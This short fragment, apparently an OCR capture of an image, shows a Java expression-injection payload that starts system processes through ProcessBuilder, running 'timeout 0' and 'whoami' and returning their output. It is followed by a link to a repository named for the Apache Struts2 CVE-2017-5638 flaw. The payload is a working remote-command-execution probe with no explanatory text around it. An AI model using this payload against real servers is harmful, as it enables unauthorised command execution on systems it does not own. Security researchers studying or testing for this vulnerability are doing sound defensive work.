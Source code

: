 ```
${(new java.io.BufferedReader(new java.io.InputStreamReader(((
new java.lang.ProcessBuilder(new java.lang.String[]{"timeout","0"
})).start()).getInputStream()))).readLine()}${(new java.io.BufferedReader
(new java.io.InputStreamReader(((new java.lang.ProcessBuilder(new java.lang
.String[]{"whoami"})).start()).getInputStream()))).readLine()}
```

https://github.com/immunio/apache-struts2-CVE-2017-5638/
